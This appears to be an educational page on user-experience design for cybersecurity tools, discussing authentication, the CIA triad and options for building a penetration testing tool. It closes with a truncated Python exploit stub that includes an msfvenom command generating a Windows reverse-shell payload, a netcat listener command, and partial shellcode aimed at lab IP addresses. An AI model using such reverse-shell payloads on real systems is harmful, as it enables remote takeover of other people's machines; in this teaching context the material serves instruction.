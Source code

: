 Here are the requirements for UXD in cyber security.
Many cyber security hardware and software programs are very hard to use.
I think we still need to do a lot of things to improve the design of the equipment and tools.
One critical advance in cyber security of recent years is user authentication.
When you use iPhone amd Android phones, 
what is the authentication method for unlocking the smartphone screen?
Passcode, face ID or touch ID?
Face ID and touch ID are getting popular since they are pretty secure to some context, very convinient, and easy to use, compared with passcode.

## Penetration Testing Tool UX Design
### Goal of Penetration Testing Tools
Why do we need a penetration testing tool?
What is the goal of using a penetration testing tool?
Such a tool will be used by penetration testers, who may scan the web,
network and computers to test if anything is not secure.

Here are a few concepts, confidentiality, integrity and availability (CIA).
What is confidentiality? It means you don't want your secret
messages to be known to other people.
For example, encryption encrypts ypur messages and provides confidentiality.
What is integrity? 
integrity means if somebody changes your files you should
be able to find they are changed.
Availability means when you
actually want to use a service, it should be up, running and providing the service.

Penetration testing help achieve CIA.
It will identify vulnerabilities, which may impact the CIA.
That's why we need such tool.

### Design Choices
The problem is how you can implement the tool?
Here are three options:
- Programing a tool
- Using Metasploit
- Using Armitage

### Method 1. Programing a Tool
You are a programming guru. You tell your customer: It's easy; just
use python to program a tool? Here are the programming documents. 
So you sell you this brochure on how to program a penetration testing tool.

```
# To receive the reverse shell, run the following command at another terminal
#   nc -l -v -p 4444
# This module "socket" provides access to the BSD socket interface
import socket
# This module "struct" performs conversions between Python values
# and C structs represented as Python bytes objects.
import struct

HOST = '10.0.2.7'   # vitcim IP
PORT = 9999         # victim port

# Shellcode created by msfvenom
# msfvenom -p windows/shell_reverse_tcp LHOST=10.0.2.8 LPORT=4444 EXITFUNC=thread -f python -v SHELL -b '\x00\x0a\x0a' 
SHELL =  b""
SHELL += b"\xba\xb7\x9a\xd6\x72\xd9\xea\xd9\x74\x24\xf4\x5e"
SHELL += b"\x29\xc9\xb1\x52\x83\xc6\x04\x31\x56\x0e\x03\xe1"
SHELL += b"\x94\x34\x87\xf1\x41\x3a\x68\x09\x92\x5b\xe0\xec"
SHELL += b"\xa3\x5b\x96\x65\x93\x6b\xdc\x2b\x18\x07\xb0\xdf"
```